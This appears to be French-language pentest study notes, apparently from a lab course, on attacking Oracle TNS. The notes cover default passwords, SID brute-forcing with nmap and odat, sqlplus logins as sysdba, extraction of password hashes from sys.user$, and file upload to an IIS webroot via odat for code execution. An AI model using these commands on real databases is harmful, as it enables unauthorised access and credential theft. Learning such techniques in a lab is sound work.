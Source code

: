 # Oracle Transparent Network Substrate
supporte encryption
Mot de passe par défaut

| Version |MdP |
| --- | --- |
| 9 |			CHANGE_ON_INSTALL |
| 10 |			(rien) |
| DBSNMP |	dbsnmp |
	
Fichiers de config:

| Nom | Description |
| --- | --- |
|ORACLE_HOME/network/admin/listener.ora | 	détermine le service sur lequel écouter et le comportement|
| ORACLE_HOME/network/admin/tnsnames.ora | 	Résoud les noms de services |
| ORACLE_HOME/sqldeveloper/PlsqlExclusionList |	exclue des modules PL/SQL |

# SID
Réfère à une instance de BD avec ses procéssus et sa mémoire, nécessaire pour les trouver sinon on tombe sur défaut dns tnsnames.ora
Brute force avec nmap --script oracle-sid-brute
odat.py all -s 10.129.204.235

# Connexion
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
sqlplus scott/tiger@10.129.204.235/XE
sqlplus scott/tiger@10.129.204.235/XE as sysdba
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Commandes
| commande | description|
| --- | --- |
| select table_name from all_tables	|	List des tables|
|select * from user_role_privs	|			privilèges courrant|
|select name, password from sys.user$|	extraire utilisateurs et mots de passe (hashé)|

# RCE
Doit avoir un serveur web et connaître l'emplacement exacte de celui-ci

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell
#envoi d'un fichier par odat
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
#exécution par http
$ curl -X GET http://10.129.204.235/testing.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
